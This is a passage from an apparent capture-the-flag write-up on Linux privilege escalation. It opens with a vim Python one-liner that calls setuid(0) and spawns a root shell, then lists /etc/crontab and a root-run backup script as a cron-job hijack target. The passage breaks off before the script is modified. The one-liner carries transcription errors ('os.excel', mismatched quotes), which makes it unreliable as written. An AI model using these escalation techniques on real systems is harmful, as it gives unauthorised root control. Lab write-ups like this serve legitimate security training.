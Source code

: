 ```
vim -c `:py3 import os; os.setuid(0); os.excel("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Awesome, now let's grab that flag :)

# Privilege Escalation: Cron Jobs

Cron Jobs are scheduled tasks that may run binaries or scripts in the context of their owner. If we can find one of these which we can modify, we can escalate our privileges that way. Cron Jobs are stored in cron tables (crontabs) at `/etc/crontab`, let's take a look:

```
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
$ bash 
karen@ip-10-10-23-186:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

Right away, of interest is the `/home/karen/backup.sh`. It is ran as `root`!

```
karen@ip-10-10-23-186:~$ ls -lh /home/karen/
total 4.0K
-rw-r--r-- 1 karen karen 77 Jun 20 10:21 backup.sh
karen@ip-10-10-23-186:~$ cat backup.sh 
#!/bin/bash
cd /home/admin/1/2/3/Results
zip -r /home/admin/download.zip ./*
```
